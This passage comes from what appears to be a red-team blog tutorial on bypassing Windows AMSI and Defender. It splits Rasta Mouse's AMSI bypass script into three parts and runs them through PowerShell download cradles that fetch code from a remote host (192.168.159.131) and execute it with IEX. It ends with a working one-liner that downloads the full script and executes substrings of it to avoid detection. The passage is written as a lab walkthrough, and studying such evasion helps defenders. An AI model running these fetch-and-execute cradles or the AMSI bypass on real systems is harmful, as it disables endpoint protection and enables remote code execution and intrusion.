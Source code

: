 So, going back to the three parts of Rasta Mouse's script that we ran on different
prompts, the same thing happened. Each part got scanned separately, each in
their own AMSI session. None triggered AMSI individually, and Windows
Defender didn't somehow connect the parts together.

### Going for a one-liner

We're a bit unhappy with running our script manually, one chunk at a time
on the PowerShell CLI, so we will now work on getting it all on one prompt. Should be more useful when we don't have access to the CLI.

As a first option, we save the 3 parts in different files (1/2/3), and we will run them in one
go using 3 download cradles. It works.
```
(New-Object Net.Webclient).downloadstring("
http://192.168.159.131/rastamouse/1.txt") | IEX;
(New-Object Net.Webclient).downloadstring("
http://192.168.159.131/rastamouse/2.txt") | IEX ;
(New-Object Net.Webclient).downloadstring("
http://192.168.159.131/rastamouse/3.txt") | IEX;
```

![image7.png]({{ site.url }}{{ site.baseurl }}/assets/images/amsi/image7.png)


However, downloading three separate files might not be desired.

So let's put the entire script in full.txt on our remote server, use a download cradle to place
it into the $full string variable, and IEX 3 different substrings. Let's
break it down first:

Our full script is saved in variable $full:

![image8.png]({{ site.url }}{{ site.baseurl }}/assets/images/amsi/image8.png)


We break the scripts into 3 substrings using a little bit of character
counting:

![image9.png]({{ site.url }}{{ site.baseurl }}/assets/images/amsi/image9.png)


We will be running those substrings using IEX.

Let's combine everything and run the "1 liner":

```
$full =(New-Object Net.Webclient).downloadstring("
http://192.168.159.131/rastamouse/full.txt"); IEX($full.substring(0,591));
IEX($full.substring(591,60)); IEX($full.substring(651,126))
```

![image10.png]({{ site.url }}{{ site.baseurl }}/assets/images/amsi/image10.png)


Good.

We now have a 1 liner that bypasses AMSI, with only 1 download and no
modifications to the original script.
